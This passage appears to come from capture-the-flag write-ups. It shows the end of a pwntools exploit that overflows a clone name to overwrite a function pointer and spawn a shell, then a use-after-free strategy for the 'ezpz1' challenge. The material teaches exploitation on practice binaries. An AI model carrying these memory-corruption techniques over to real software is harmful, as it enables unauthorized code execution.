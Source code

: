 ```

def name_clone(clone_id, name):
    p.sendlineafter(b'Choice: ', b'C')
    p.sendlineafter(b'Clone ID: ', str(clone_id).encode())
    p.sendlineafter(b'Enter Name: ', name)

def give_hint(clone_id):
    p.sendlineafter(b'Choice: ', b'H')
    p.sendlineafter(b'Clone ID: ', str(clone_id).encode())

# Exploit Steps
create_clone(0, b"A" * 8)  # Create initial clone
name_clone(0, b"A" * 8 + p64(win_addr) + b'\n')  # Overflow and set function pointer to win
give_hint(0)  # Trigger exploit by invoking `givehint`

# Interact with shell
p.interactive()
```

# ezpz1

## Overview
The binary `ezpz1` allows users to create, delete, set, and ask questions. The `ask_question` function calls a function pointer stored in a question structure, which we can exploit by overwriting it with the address of the `win` function. This exploit will execute `win`, leading to shell access via `system("/bin/sh")`.

### Target Functions

1. **`win` Function** (`0x4015b9`): Executes `system("/bin/sh")`, providing a shell.
2. **`ask_question` Function**: Uses a function pointer within a question structure to call `print_question` by default. We can exploit this by overwriting the function pointer to point to `win`.
3. **`delete_question` Function**: Frees the question and its associated memory. This can be used to create a use-after-free vulnerability.

### Vulnerability
The vulnerability arises from the `delete_question` function, which frees the memory associated with a question, but does not remove its reference. By creating a new question after deletion, we can reuse the freed memory and overwrite the function pointer to point to `win`.

## Exploit Strategy

1. **Create and Delete Question**: Create an initial question (ID 0) and delete it, freeing its memory but retaining the reference.
2. **Recreate Question**: Create a new question (ID 2) that reuses the freed memory.
3. **Overwrite Function Pointer**: Use `set_question` to overwrite the function pointer with the address of `win`.
4. **Trigger Exploit**: Call `ask_question` on the first question (ID 0), which will execute `win` and give us a shell.
